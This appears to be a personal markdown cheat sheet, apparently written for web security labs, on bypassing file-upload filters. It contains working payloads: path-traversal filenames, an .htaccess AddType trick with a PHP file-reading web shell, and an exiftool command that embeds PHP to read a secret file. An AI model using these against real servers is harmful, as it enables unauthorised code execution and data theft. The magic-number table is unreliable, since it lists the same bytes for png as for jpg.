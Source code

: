 # 

# File Upload Vulnerability

## ByPass Client Side Filterin

1. Turn of JavaScript But Make Sure the Website doesn't require Javascript in order to provide basic functionality.

2. Intercept and modify the incoming page. Using Burpsuite
   
   EX:
   
           1-Intercept on to get This Request 
           2-Right Click and choose -> Do Intercept
           3-Response This request 
           4-Forward
           5-And Delete JS code Filter

3. Send the file directly to the upload point.
   
   Why use the webpage with the filter,when you can send the file directly using a tool. like curl
   
       curl -X POST -F "submit:<value>" -F "<file-parameter>:@<path-to-file>" <site>

4. Edit Content-Type: header to
   
           1-Upload File With Accepted Extention
           2-Intercept This Request 
           3-Edit Content-Type to -> Content-Type:text/x-php or image/png -> would you want
           3-and Edit file Extention to what you want

5. File Upload via Path Traversal 
   
           Content-Disposition: form-data; name="avatar"; filename="../get_f_c.php"
           Content-Disposition: form-data; name="avatar"; filename="%2e%2e%2fget_f_c.php"
       
           GET /files/avatars/../get_f_c.php
           GET /files/avatars/..%2get_f_c.php

6. Test them using some uppercase letters
   
         pHp, .pHP5, .PhAr ...

7. using .htaccess file
   
   this file is the file of configration in appache you can add configration on it to accept any extension ike .shell , .test then you should aupload two fils file .htaccess 
   
   file One
   
       Content-Disposition: form-data; name="avatar"; filename=".htaccess"
       Content-Type: text/plain
       AddType application/x-httpd-php .shell
   
   flle Two
   
       Content-Disposition: form-data; name="avatar"; filename="shell.shell"
       Content-Type: image/png
       <?php echo file_get_contents('/path/to/target/file'); ?>

--- 

## ByPass ServerSide Filtering

1. First You have to perform a lot of testing to build up an idea of what is or is not allowed through the filter.

2. Try All Possible Extention work for The Same Thing You Want https://book.hacktricks.xyz/pentesting-web/file-upload

3. Magic Numbers
   
   see this site To Know Your Extention Magic Number
   
   https://gist.github.com/leommoore/f9e57ba2aa4bf197ebc5
   
   https://en.wikipedia.org/wiki/List_of_file_signatures
   
   Use Any hex editor to Edit First bits. Like hexeditor
   
   | .jpg | ff d8 ff e0 |
   | ---- | ----------- |
   | .png | ff d8 ff e0 |
   
   or using exftool using this script
   
       exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
   
   use Command `file filename` to know if the magic Numbers work

4. Execute it before deleteing
   
    Modern frameworks are more battle-hardened against these kinds of attacks. They generally don't upload files directly to their intended destination on the filesystem. Instead, they take precautions like uploading to a temporary, sandboxed directory first and randomizing the name to avoid overwriting existing files. They then perform validation on this temporary file and only transfer it to its destination once it is deemed safe to do so.
   
   That said, developers sometimes implement their own processing of file uploads independently of any framework. Not only is this fairly complex to do well, it can also introduce dangerous race conditions that enable an attacker to completely bypass even the most robust validation.
   
   For example, some websites upload the file directly to the main filesystem and then remove it again if it doesn't pass validation. This kind of behavior is typical in websites that rely on anti-virus software and the like to check for malware. This may only take a few milliseconds, but for the short time that the file exists on the server, the attacker can potentially still execute it.
   
   These vulnerabilities are often extremely subtle, making them difficult to detect during blackbox testing unless you can find a way to leak the relevant source code. 
   
   EX:
   
   [Lab: Web shell upload via race condition | Web Security Academy](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition)

5. Outher Vulnerability
   
   you can upload file to gain XXE injection,XSS by upload .html,.doc,.xls files or any file 
